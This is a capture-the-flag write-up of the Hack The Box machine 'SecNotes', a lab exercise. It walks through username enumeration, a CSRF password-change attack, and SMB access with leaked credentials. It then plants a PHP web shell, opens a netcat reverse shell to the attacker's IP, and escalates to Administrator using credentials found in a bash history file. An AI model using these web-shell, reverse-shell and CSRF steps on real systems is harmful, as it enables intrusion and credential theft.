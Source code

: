 # SecNotes

This is the write-up for the box SecNotes that got retired at the 19th January 2019.
My IP address was 10.10.14.20 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.97    secnotes.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/secnotes.nmap 10.10.10.97
```

```markdown
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Full TCP port scan:
```markdown
nmap -p- 10.10.10.97
```
```markdown
PORT     STATE SERVICE
80/tcp   open  http
445/tcp  open  microsoft-ds
8808/tcp open  ssports-bcast
```

Running default scripts and version enumeration on port 8808:
```markdown
nmap -sC -sV -p 8808 10.10.10.97
```
```markdown
PORT     STATE SERVICE VERSION
8808/tcp open  http    Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

On the web page there is a login form and the possibility to sign up:

![Login page](https://kyuu-ji.github.io/htb-write-up/secnotes/secnotes_web-1.png)

When trying out some usernames and passwords it says _"No account found with that username."_ but after creating a user and sending wrong credentials it does not show this message, which means this is a way to enumerate usernames.

Lets send this to any web proxy tool like **Burpsuite** to get the HTTP header and try to brute-force some usernames with **Wfuzz**:
```markdown
wfuzz -w /usr/share/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=Pass1234" --hs "No account found with that username." http://10.10.10.97/login.php
```

It finds one username called _tyler_. After logging in with our created user, it shows that name also on the top in a message:

![Logged in as our user](https://kyuu-ji.github.io/htb-write-up/secnotes/secnotes_web-2.png)

The feature _"New Note"_ lets us create a note and when trying to create it with HTML tags, it gets parsed:
```markdown
Title
<h1>test title 1</h1>

Note
<center> test note 1</center>
```

There is no attack path with the _"New Note"_ feature.

The feature _"Change Password"_ sends the password without any token to the server:
```markdown
POST /change_pass.php HTTP/1.1
Host: 10.10.10.97
(...)
password=Pass123&confirm_password=Pass1234&submit=submit
```

When changing the **POST** parameter to **GET**, it looks like this and still works:
```markdown
GET /change_pass.php?password=Pass1243&confirm_password=Pass1234&submit=submit
```

The feature _"Contact Us"_ allows us to input any message text and allegedly sends it to _tyler_:

![Contact form](https://kyuu-ji.github.io/htb-write-up/secnotes/secnotes_web-3.png)

Lets start a listener on any port and send a link with my IP, to see if he follows links:
```markdown
Message:
http://10.10.14.20:9001
```

After some seconds the listener on port 9001 gets a connection back and confirms, that he follows links.

In summary this challenge looks like some sort of **Cross-Site-Scripting (XSS)** or **Cross-Site-Request-Forgery (CSRF)** task.

### Cross-Site-Request-Forgery Attack

In combination of sending a link to _tyler_ with a request to change the password, it would be possible that he changes his password to something we control.

Lets send _tyler_ a link of the _"Change Password"_ feature:
```markdown
Message:
http://10.10.10.97/change_pass.php?password=Pass123&confirm_password=Pass123&submit=submit
```

After its reviewed, the password of _tyler_ changes to _"Pass123"_ and login as him works:

![Homepage of tyler](https://kyuu-ji.github.io/htb-write-up/secnotes/secnotes_web-4.png)

One of the notes look like an SMB path and credentials:
```markdown
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

## Checking SMB (Port 445)

With the gained credentials, it is possible to enumerate the SMB shares with **SMBmap**:
```markdown
smbmap -u tyler -p '92g!mA8BGjOirkL%OG*&' -H 10.10.10.97
```
```markdown
Disk             Permissions     Comment
----             -----------     -------
ADMIN$           NO ACCESS       Remote Admin
C$               NO ACCESS       Default share
IPC$             READ ONLY       Remote IPC
new-site         READ, WRITE
```

There are Read-Write permissions on the _new-site_ share.
```markdown
smbclient -U tyler%92g!mA8BGjOirkL%OG*& \\\\10.10.10.97\\new-site
```

There are only two files called _iisstart.html_ and _isstart.png_ which are default IIS files.

## Checking HTTP (Port 8808)

On the web page on port 8808 it shows the default IIS site which were found in the SMB share.
This means that any uploaded file on the SMB share will also be on this web service and thus we have control over the web service.

Creating a **PHP** shell:
```markdown
<?php system($_REQUEST['cmd']) ?>
```

Uploading it to the SMB share:
```markdown
smb: \> put shell.php
```

Accessing it and executing `whoami`:
```markdown
http://10.10.10.97:8808/shell.php?cmd=whoami
```

The output is _secnotes\tyler_ and proofs successful code execution.
Lets upload **Netcat for Windows** and start a reverse shell connection:
```markdown
smb: \> put nc64.exe
```

Starting reverse shell with **Netcat**:
```markdown
http://10.10.10.97:8808/shell.php?cmd=nc64.exe 10.10.14.20 9001 -e powershell
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell session as the user _tyler_.

## Privilege Escalation

In the home directory of _tyler_ in the _Desktop_ folder is a file called _bash.lnk_ which is a link file that links to _"C:\Windows\System32\bash.exe"_.
So on this Windows box is a _bash_ shell that can be used by simply executing `bash`.

On this _bash terminal_ it says that we are root, but this doesn't make us Administrator on the box.
The _/root/.bash_history_ file has contents in it and in there is a command with credentials:
```markdown
(...)
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
(...)
```

Lets use the command ourselves from our local client:
```markdown
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\10.10.10.97\\c$
```

Now we are connected to the SMB share as Administrator and can obtain any file on the box!

With **psexec** it is also possible to gain a shell with _Administrator_:
```markdown
python3 psexec.py administrator@10.10.10.97
```
